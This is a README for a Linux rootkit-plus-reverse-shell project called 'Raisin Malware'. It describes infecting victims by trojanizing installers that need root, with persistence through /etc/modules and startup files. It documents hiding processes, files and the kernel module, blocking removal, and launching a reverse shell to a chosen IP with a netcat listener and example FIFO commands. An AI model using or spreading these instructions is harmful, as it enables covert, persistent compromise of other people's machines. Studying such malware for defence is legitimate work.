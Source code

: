# Raisin Malware

<img src="images/angry_raisin.png" width="200">

The raisin malware is a combination rootkit and reverse shell application. The raisin malware uses the LKM created by [Maxim Biro](https://www.google.com) to gain root access, grape is a continuously running client that will launch a reverse shell and can then be used to send commands to the LKM.

The rootkit only works on **Linux kernels up to 4.4.0-31** and has architecture-specific code in the rootkit which is implemented only for **x86** and **x86-64** architectures. The raisin malware was tested on a Ubuntu 14.04 VM. The reverse shell IP on the default build
is set to the VM IP of `10.0.2.15` to change edit line `42` of grape.c.

## Infection Method

The intention is to inject raisin into another download that requires root
privileges to install. The installer will be altered to create the kernel module
and grape client, then add the module to the /etc/modules file, and create a startup file for grape so both automatically run program on Linux startup.

## Commands

| Commands         | Description   |
| ---------------- |:-------------:|
| root             | Grants you root shell access. Will happen automatically.|
| hpid $PID        | Hides the specified PID.|
| unpid $PID       | Unhides the specified PID.|
| hfile $FILENAME  | Hides the specified FILENAME globally. Must be a filename without any path|
| unfile $FILENAME | Unhides the specified FILENAME.|
| hide             | Hides the rootkit LKM.|
| unhide           | Unhides the rootkit LKM.|
| protect          | Protects the rootkit from rmmod.|
| unprotect        | Disables the rmmod protection.|
| reverse $IP      | Sends start command to begin reverse shell at IP address, port is 443|
| touch            | Creates a pipe in /opt. A good test to see if root access is working|

## Instructions

1. Run `make` to create rootkit and grape client. Will need to install build
essentials if not already installed `apt-get install build-essential`
2. Load the rootkit using `sudo insmod rootkit.ko`, the rootkit will hide itself so it can't be seen with `lsmod` till the `unhide` command is given.
3. Open a listener for the reverse shell using `sudo nc -lvp 443`. On the default
build target IP is set for default VM IP of `10.0.2.15`.
4. Start the grape client `./grape`, if no internet access is available grape
will shutdown. If you wish to remove this simple delete line `74-75` in grape.c
and recompile.
5. The reverse shell is now active and can be used to send commands to the host
machine.
6. In the `/tmp` directory a pipe is created named `grape_fifo`. Sending `echo -n`
commands to this pipe will allow access to rootkit and other functions.

## Examples Commands

* `echo -n "unhide\0" > grape_fifo`
* `echo -n "hfile ../test.txt\0" > grape_fifo`
* `echo -n "reverse 192.168.1.1\0" > grape_fifo`

## Notes

* For **hfile** and **unfile** the path to the file must be from the perspective of the application where it was started.
* In order to avoid errors with c strings add the '\0' to the end of the line.
    `ex. echo -n "unhide\0" > grape_fifo`
* grape will automatically close if no internet access is available.
* Default build reverse shell IP address is set to `10.0.2.15` the default VM
IP for testing in a VM, port `443`.
